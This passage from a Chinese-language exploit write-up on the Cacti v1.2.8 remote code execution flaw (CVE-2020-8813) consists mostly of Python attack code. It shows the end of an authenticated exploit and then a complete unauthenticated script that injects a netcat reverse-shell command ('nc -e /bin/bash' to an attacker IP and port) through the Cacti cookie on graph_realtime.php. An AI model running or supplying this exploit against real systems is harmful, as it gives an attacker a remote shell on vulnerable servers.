 ```python
            print("[+]Making some noise ..")
            guest_realtime = enable_guest(token)
            if guest_realtime:
                print("[+]Sending malicous request, check your nc ;)")
                send_exploit()
            else:
                print("[-]Error while activating the malicous account")
 
        else:
            print("[-] Unable to retrieve CSRF token from admin page!")
            exit()
 
    else:
        print("[-]Cannot Login!")
else:
    print("[-] Unable to retrieve CSRF token!")
    exit()
```

运行漏洞利用代码后，我们将获得以下内容：

![](images/15889444516981.png)


**未经身份验证的利用**

如果Cacti启用了“来宾实时图”特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：


```python
#!/usr/bin/python3
 
# Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33
 
import requests
import sys
import warnings
from bs4 import BeautifulSoup
from urllib.parse import quote
 
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
 
if len(sys.argv) != 4:
    print("[~] Usage : ./Cacti-exploit.py url ip port")
    exit()
 
url = sys.argv[1]
ip = sys.argv[2]
port = sys.argv[3]
 
def send_exploit(url):
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    path = url+"/graph_realtime.php?action=init"
    req = requests.get(path)
    if req.status_code == 200 and "poller_realtime.php" in req.text:
        print("[+] File Found and Guest is enabled!")
        print("[+] Sending malicous request, check your nc ;)")
        requests.get(path, cookies=cookies)
```